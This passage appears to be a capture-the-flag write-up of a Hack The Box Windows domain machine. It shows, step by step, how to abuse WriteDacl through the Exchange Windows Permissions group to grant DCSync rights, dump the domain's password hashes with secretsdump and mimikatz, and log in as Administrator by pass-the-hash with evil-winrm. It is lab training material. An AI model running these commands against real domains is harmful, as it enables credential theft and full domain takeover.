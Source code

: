 - `New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)`

- `net group "EXCHANGE WINDOWS PERMISSIONS" svc-alfresco /add /domain`
- We did not go very far with this.
- We could also try to abuse this `WriteDacl` permission that the group "Exchange Windows Permissions has"
- Our user svc-alfresco is able to add users.
- Here are the Abuse info from bloodhound

>To abuse WriteDacl to a domain object, you may grant yourself the DcSync privileges.
You may need to authenticate to the Domain Controller as a member of EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL if you are not running a process as a member. To do this in conjunction with Add-DomainObjectAcl, first create a PSCredential object (these examples comes from the PowerView help documentation):

```dos
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
```

>Then, use Add-DomainObjectAcl, optionally specifying $Cred if you are not already running a process as EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL:

```dos
Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
```

> Once you have granted yourself this privilege, you may use the mimikatz dcsync function to dcsync the password of arbitrary principals on the domain

```dos
lsadump::dcsync /domain:testlab.local /user:Administrator
```

- First let's import Powerview `. .\Powerview.ps1` was not working what worked was `Import-Module .\PowerView.ps1`
- Let's add a user `net user gabrielle gabrielle@123 /add /domain`
- Let's add it to the group with WriteDacl permission `net group "Exchange Windows Permissions" /add gabrielle`
- `Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity gabrielle -Rights DCSync` we use Add-DomainObjectAcl
- Finally we just need to dump hashes with secretdumps `secretsdump.py htb.local/gabrielle:gabrielle@123@10.10.10.161`
- We get the admin hash this way

```bash
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

- Let's connect as Administrator using the hash `evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6` and get the root flag `type ../Desktop/root.txt`